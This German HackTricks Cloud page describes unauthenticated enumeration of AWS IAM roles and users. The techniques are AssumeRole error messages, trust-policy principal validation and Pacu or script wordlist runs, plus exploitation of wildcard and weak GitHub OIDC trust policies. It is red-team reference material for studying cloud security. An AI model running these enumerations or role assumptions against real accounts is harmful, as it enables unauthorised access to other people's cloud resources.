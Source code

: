 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
Lernen Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>
{% endhint %}

## Rollen und Benutzernamen in einem Konto auflisten

### ~~Annahme von Rollen durch Brute-Force~~

{% hint style="danger" %}
**Diese Technik funktioniert nicht** mehr, da Sie immer diesen Fehler erhalten, unabhängig davon, ob die Rolle existiert oder nicht:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Sie können dies **testen, indem Sie** ausführen:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Der Versuch, **eine Rolle ohne die erforderlichen Berechtigungen anzunehmen**, löst eine AWS-Fehlermeldung aus. Wenn nicht autorisiert, könnte AWS beispielsweise zurückgeben:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Diese Nachricht bestätigt die Existenz der Rolle, zeigt jedoch an, dass ihre Annahme-Richtlinie Ihre Annahme nicht zulässt. Im Gegensatz dazu führt der Versuch, **eine nicht vorhandene Rolle anzunehmen, zu einem anderen Fehler**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interessanterweise ist diese Methode des **Unterscheidens zwischen vorhandenen und nicht vorhandenen Rollen** sogar über verschiedene AWS-Konten hinweg anwendbar. Mit einer gültigen AWS-Konto-ID und einer gezielten Wortliste kann man die Rollen im Konto aufzählen, ohne auf inhärente Einschränkungen zu stoßen.

Sie können dieses [Skript zur Auflistung potenzieller Prinzipale](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) verwenden, um dieses Problem auszunutzen.

### Vertrauensrichtlinien: Brute-Force Cross-Account-Rollen und Benutzer

Das Konfigurieren oder Aktualisieren einer **IAM-Rolle-Vertrauensrichtlinie beinhaltet die Definition, welche AWS-Ressourcen oder -Dienste berechtigt sind, diese Rolle anzunehmen** und temporäre Anmeldeinformationen zu erhalten. Wenn die angegebene Ressource in der Richtlinie **existiert**, wird die Vertrauensrichtlinie **erfolgreich** gespeichert. Wenn die Ressource jedoch **nicht existiert**, wird ein **Fehler generiert**, der darauf hinweist, dass ein ungültiger Prinzipal angegeben wurde.

{% hint style="warning" %}
Beachten Sie, dass Sie in dieser Ressource eine Cross-Account-Rolle oder einen Benutzer angeben könnten:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Dies ist ein Richtlinienbeispiel:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Das ist der **Fehler**, den Sie finden werden, wenn Sie eine **Rolle verwenden, die nicht existiert**. Wenn die Rolle **existiert**, wird die Richtlinie **ohne Fehler gespeichert**. (Der Fehler tritt beim Aktualisieren auf, funktioniert aber auch beim Erstellen)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Du kannst diesen Prozess mit [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools) automatisieren

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Unsere Verwendung von [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Die im Beispiel verwendete `admin`-Rolle ist eine **Rolle in Ihrem Konto, die von Pacu zur Erstellung der benötigten Richtlinien für die Enumeration übernommen werden soll**

### Privesc

Falls die Rolle schlecht konfiguriert ist und es jedem erlaubt, sie anzunehmen:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Der Angreifer könnte es einfach annehmen.

## Drittanbieter OIDC-Föderation

Stellen Sie sich vor, Sie können einen **Github Actions-Workflow** lesen, der auf eine **Rolle** in **AWS** zugreift.\
Dieses Vertrauen könnte Zugriff auf eine Rolle mit der folgenden **Vertrauensrichtlinie** gewähren:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Diese Vertrauensrichtlinie mag korrekt sein, aber das **Fehlen weiterer Bedingungen** sollte Misstrauen hervorrufen.\
Dies liegt daran, dass die vorherige Rolle von **JEDEM von Github Actions** angenommen werden kann! Sie sollten auch andere Dinge wie den Organisationsnamen, den Repository-Namen, die Umgebung, den Branch usw. in den Bedingungen angeben...

Eine weitere potenzielle Fehlkonfiguration besteht darin, eine Bedingung wie die folgende **hinzuzufügen**:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Beachten Sie das **Platzhalterzeichen** (\*) vor dem **Doppelpunkt** (:). Sie können eine Organisation wie **org\_name1** erstellen und die Rolle aus einer Github-Aktion **annehmen**.

## Referenzen

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Lernen Sie & üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie & üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>
{% endhint %}
